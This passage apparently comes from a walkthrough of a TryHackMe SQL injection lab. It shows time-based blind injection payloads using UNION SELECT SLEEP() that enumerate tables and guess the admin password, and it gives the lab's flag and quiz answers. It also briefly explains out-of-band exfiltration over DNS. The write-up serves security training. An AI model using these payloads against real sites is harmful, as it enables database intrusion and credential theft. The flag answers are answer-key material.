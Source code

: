 ```

```
admin123' UNION SELECT SLEEP(5),2;--
```


This payload should have produced a 5-second time delay, which confirms the successful execution of the UNION statement and that there are ```two columns```.



You can now repeat the enumeration process from the Boolean based SQL Injection, adding the SLEEP() method into the UNION SELECT statement.
If you're struggling to find the table name the below query should help you on your way:

```
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```


What is the final flag after completing level four?
Answer : THM{SQL_INJECTION_MASTER}

```

https://website.thm/analytics?

referrer=admin123' UNION SELECT Sleep(5),2 FROM users where username = 'admin' and password like '4961%';--
```
![img](/assets/img/sql-inject12.png)



Task 9  Out-of-Band SQLi
---

Out-of-Band SQL Injection isn't as common as it either depends on specific features being enabled on the database server or the web application's business logic, which makes some kind of external network call based on the results from an SQL query.

An ```Out-Of-Band attack``` is classified by having two different communication channels, one to ```launch the attack``` and the other to``` gather the results```. 

For example:

The ```attack channel``` could be a ```web request```, and the data gathering channel could be monitoring ```HTTP/DNS requests``` made to a service you control.

1) An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.

2) The Website makes an SQL query to the database which also passes the hacker's payload.

3) The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.



Name a protocol beginning with D that can be used to exfiltrate data from a database.
```
DNS
```


Task 10  Remediation
```
